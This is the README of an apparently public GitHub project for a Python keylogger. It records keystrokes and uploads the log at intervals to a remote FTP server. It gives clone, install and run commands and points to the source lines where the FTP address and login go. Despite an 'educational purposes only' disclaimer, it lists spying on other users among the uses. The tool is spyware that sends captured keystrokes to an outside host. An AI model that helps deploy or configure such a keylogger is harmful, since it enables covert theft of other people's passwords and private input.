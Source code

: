 ## Keylogger 🖥️🔍

This is a straightforward keylogger crafted with the Python Keyboard library That uploads the log file to a remote **FTP** server .

This keyloggers are simple and barebones, yet they work like a charm! Feel free to fork and enhance it if you wish. 🍴✨



## Warning ⚠️☠️

**This project is intended for educational and research purposes only.**

Please use this keylogger responsibly and only on devices and systems for which you have explicit authorization.

The author(s) of this project are not responsible for any misuse or illegal activities involving this software.


## Installation Process 📥

First, clone the repository and navigate to the Keylogger directory:

```
$ git clone https://github.com/Advaidv121/Keylogger && cd Keylogger
```

Next, install Keylogger using pip3 with the following instructions:

```
$ pip install -r requirements.txt
```
## Pre Execution ⏮️

On line number **36** add the necessary ftp address for the log file to be uploaded into the ftp server
```
36 ftp=FTP('xx.xxx.xx.xx') #replace 'xx.xxx.xx.xx'
```
On line number **37** add the necessary username and password to login into the ftp server for upload
```
37 ftp.login('username','password')  #replace 'username' 'password'
```

## Execution 🏃‍♂️

Kickstart the keylogger by running 
```
python keylogger.py
```
It'll start logging your keystrokes immediately! ⌨️📝
And starts logging the log files into the **ftp** server based on the desired time interval🛜

## Potential Uses 💡

Keyloggers can be used for:

- Personal Control and File Backup: Ensure no one is using your computer in your absence. 🔒💼
- Self Analysis: Verify if your system is being accessed by someone else. 🕵️‍♂️💻
- Malicious Intent: Spy on other systems and users (Not recommended). 👀🚫"
